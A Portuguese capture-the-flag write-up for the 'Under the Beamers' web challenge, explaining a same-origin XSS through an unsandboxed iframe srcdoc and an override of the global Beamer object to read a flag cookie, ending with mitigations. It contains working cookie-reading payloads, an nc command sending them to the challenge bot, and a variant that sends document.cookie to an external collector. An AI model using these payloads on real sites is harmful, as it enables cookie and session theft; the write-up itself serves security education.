 # Under the Beamers — Write-up (Web / XSS + DOM Clobbering)

> **Desafio:** “Under the Beamers – Clobbered or not clobbered, that’s the question :)”  
> **Alvos:**  
> • App: `http://65.109.209.215:5000`  
> • Bot: porta `4000` (recebe HTML e visita a App com um cookie secreto)  
> **Flag format:** `ASIS{...}`

---

## 1) Resumo da solução

Exploramos um **XSS em mesma origem** dentro de um `<iframe srcdoc>` que injeta o script do **Beamer**. O app chama `Beamer.update(...)` com `setTimeout`. Em paralelo, o **bot** injeta **`document.cookie` com a flag** (não-HttpOnly) no domínio da app antes de visitar a página.  
A exploração final usa um **getter via `Object.defineProperty(window, "Beamer", ...)`** para executar **antes** do `setTimeout` e **no frame principal**, garantindo que o `console.log` com a cookie (que contém a flag) volte para nós no terminal.

PoC final (enviado para o **bot** na porta **4000**):
```html
<script>
Object.defineProperty(window, "Beamer", {
  get: function(){
    console.log("FLAG:", document.cookie);
    return {};
  }
});
</script>
```

---

## 2) Entendendo a aplicação (recon)

O arquivo disponibilizado no desafio (TXZ) revela duas partes:

- **App (Flask, porta 5000)**  
  - Renderiza um HTML com uma **textarea** e um **iframe** que usa `srcdoc` para renderizar o conteúdo do usuário.
  - Dentro do `srcdoc`, injeta:
    - `beamer-embed.js` (vendorizado localmente)
    - Uma chamada programada: `setTimeout(() => { Beamer.update({ language: "FR" }) }, 1000);`

- **Bot (Node + Puppeteer, porta de entrada 4000)**  
  - Recebe **uma string de HTML** via TCP.  
  - **Define um cookie** no domínio da app *antes* de visitar a URL (domínio interno `under-the-beamers-app.internal:5000`):  
    - `name: flag`  
    - `value: process.env.FLAG`  
    - `httpOnly: false`  ⟵ **chave** (JS pode ler `document.cookie`)  
  - Visita:  
    ```
    http://under-the-beamers-app.internal:5000/?html=<SEU_HTML_URL_ENCODED>
    ```
  - Encaminha **`console.log` do frame principal** de volta para nosso terminal (os logs que vimos: “Initializing Beamer…”).

**Conclusão de recon:**  
- O `iframe srcdoc` está em **mesma origem** com o documento pai.  
- O Beamer será referenciado e atualizado 1s depois.  
- O cookie `flag` estará acessível por JS quando for executado no mesmo domínio.  
- Se conseguirmos **executar no frame principal** (ou fazer o principal logar), capturamos a flag via `console.log`.

---

## 3) Superfície de ataque

1) **XSS via “editor”**: nosso HTML vira o conteúdo do `srcdoc` do iframe (mesma origem).  
2) **DOM clobbering / sobrescrita do Beamer**: o app usa `Beamer.update(...)` sem checar origem/estado — podemos controlar `Beamer`.  
3) **Coleta da flag**: como `httpOnly: false`, `document.cookie` revela `flag=ASIS{...}`.

---

## 4) Tentativas e por que não deram “log”

- **Clobber tradicional com `id=Beamer` + `Beamer.update = function(){...}`**:  
  Executou, mas **o `console.log` rodou no iframe** (nem sempre encaminhado pelo bot) **ou tarde demais** (após o listener do bot).

- **Exfiltração externa (Image/Fetch/Beacon/Location)**:  
  Pode ser bloqueada pelo ambiente (domínios/bloqueios/bastion) — e mesmo quando “ok”, não vimos evidência na saída do bot.

- **`parent.console.log(...)`/injeção de script no pai**:  
  Em tese deveria funcionar (mesma origem), mas ainda existe a questão de **timing** (o bot fecha logo após a navegação e os eventos do Beamer) e **quais frames têm logs capturados**.

---

## 5) Exploit final (getter em `window.Beamer`)

A sacada: **sobrescrever o `Beamer` com um *getter***; assim, na **primeira vez que a app ler `Beamer`**, nosso código executa **antes** do `setTimeout` e **no frame principal** (o que garante que o `console.log` é capturado).

### Payload final (enviar ao bot – porta 4000)
```bash
cat <<'HTML' | nc 65.109.209.215 4000
<script>
Object.defineProperty(window, "Beamer", {
  get: function(){
    console.log("FLAG:", document.cookie);
    return {};
  }
});
</script>
HTML
```

### Resultado esperado
No terminal (onde você rodou `nc`), aparece algo como:
```
[T1]> console.log | FLAG: flag=ASIS{...}; outras=cookies; ...
```
O que vem após `flag=` é a **flag do desafio**.

---

## 6) Por que funciona (explicação técnica)

- O **getter** em `window.Beamer` intercepta **qualquer acesso** à propriedade `Beamer` do `window`.  
- O app/Beamer (script vendorizado) inevitavelmente toca em `window.Beamer` logo ao carregar → **dispara o nosso getter**.  
- O getter roda **no frame principal** e **antes do `setTimeout`** da app, garantindo que:  
  - o log é capturado pelo bot;  
  - a cookie já está presente (o bot definiu antes de navegar).  
- Como a cookie não é HttpOnly, `document.cookie` revela `flag=ASIS{...}`.

---

## 7) Procedimento completo (passo a passo)

1. **Abrir terminal no Kali/WSL/Linux**.  
2. **Enviar payload para o bot**:
   ```bash
   cat <<'HTML' | nc 65.109.209.215 4000
   <script>
   Object.defineProperty(window, "Beamer", {
     get: function(){
       console.log("FLAG:", document.cookie);
       return {};
     }
   });
   </script>
   HTML
   ```
3. **Observar a saída**: aguarde o “Starting the browser…”, “Going to the app…”, “Initializing Beamer…”, e então o **`console.log` com `FLAG: flag=ASIS{...}`**.  
4. **Copiar a flag** e submeter no CTF.

---

## 8) Variantes úteis

- **Redefinir `console.log`**:
  ```html
  <script>
  console.log = function(){
    arguments[0] = "FLAG: " + document.cookie;
    parent.console.__proto__.log.apply(console, arguments);
  }
  </script>
  ```

- **Clobbering clássico**:
  ```html
  <form id=Beamer></form><script>
    Beamer.update=function(){
      console.log('FLAG:', document.cookie);
    }
  </script>
  ```

- **Exfiltração externa**:
  ```html
  <form id=Beamer></form><script>
    Beamer.update=function(){
      new Image().src='https://SEU-COLLECTOR/hit?c='+encodeURIComponent(document.cookie);
    }
  </script>
  ```

---

## 9) Causa-raiz e mitigação

**Causas técnicas:**
- Execução de HTML arbitrário do usuário em **mesma origem** usando `iframe srcdoc` **sem sandbox**.  
- Uso de objeto global (`Beamer`) sem blindagem.  
- Cookie de flag sem `HttpOnly`.  

**Mitigações:**
- Isolar conteúdo do usuário (sandbox ou outro domínio).  
- CSP estrito (sem inline scripts).  
- Não expor cookies sensíveis a JS (`HttpOnly`).  

---

## 10) Conclusão

Exploração combina **XSS em mesma origem** + **substituição/interceptação de objeto global (`Beamer`)**.  
A técnica com `Object.defineProperty` garantiu execução no frame principal e log no terminal do bot.  
**Flag obtida com sucesso.**
